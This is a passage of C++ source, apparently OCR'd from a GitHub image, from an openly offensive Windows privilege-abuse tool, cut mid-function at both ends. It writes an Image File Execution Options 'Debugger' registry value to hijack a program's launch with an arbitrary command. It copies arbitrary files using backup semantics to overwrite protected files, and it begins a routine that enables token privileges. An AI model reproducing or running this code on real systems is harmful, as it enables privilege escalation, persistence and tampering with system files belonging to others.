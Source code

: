 ```c++
        lResult = RegSetValueExW(hKey, L"Debugger", 0, REG_SZ, (const BYTE*)command, (wcslen(command) + 1) * sizeof(WCHAR));
        if (lResult != ERROR_SUCCESS)
        {
            wprintf(L"[-] RegSetValueExW Error: [%u].\n", lResult);
            return status;
        }
        wprintf(L"[*] Set Image File Execution Options for %ws successfully with Debugger as %ws.\n", program, command);
        status = TRUE;
    }
    else if(!wcscmp(expType, L"File"))
    {
        if (sourceFile && destFile)
        {
            // Open source file.
            hSource = CreateFileW(sourceFile, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
            if (hSource == INVALID_HANDLE_VALUE)
            {
                wprintf(L"[-] Could not open source file by CreateFileW: [%u].\n", GetLastError());
                return status;
            }
            // Create destination file.
            hDestination = CreateFileW(destFile, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_FLAG_BACKUP_SEMANTICS, NULL);
            if (hDestination == INVALID_HANDLE_VALUE)
            {
                wprintf(L"[-] Could not create destination file by CreateFileW: [%u].\n", GetLastError());
                return status;
            }
            // Read from source file.
            if (!ReadFile(hSource, buffer, SIZE, &dwBytesRead, NULL))
            {
                wprintf(L"[-] ReadFile Error: [%u].\n", GetLastError());
                return status;
            }
            wprintf(L"[*] Read bytes from %ws: %d\n", sourceFile, dwBytesRead);
            // Write to destination file.
            if (!WriteFile(hDestination, buffer, dwBytesRead, &dwBytesWrite, NULL))
            {
                wprintf(L"[-] WriteFile Error: [%u].\n", GetLastError());
                return status;
            }
            printf("[*] Bytes written to %ws: %d\n", destFile, dwBytesWrite);
            status = TRUE;
        }
    }
    return status;
}

BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
    BOOL status = FALSE;
    LUID luidValue = { 0 };
    TOKEN_PRIVILEGES tokenPrivileges;

    // Get the LUID value of the privilege for the local system
    if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
    {
        wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
        return status;
```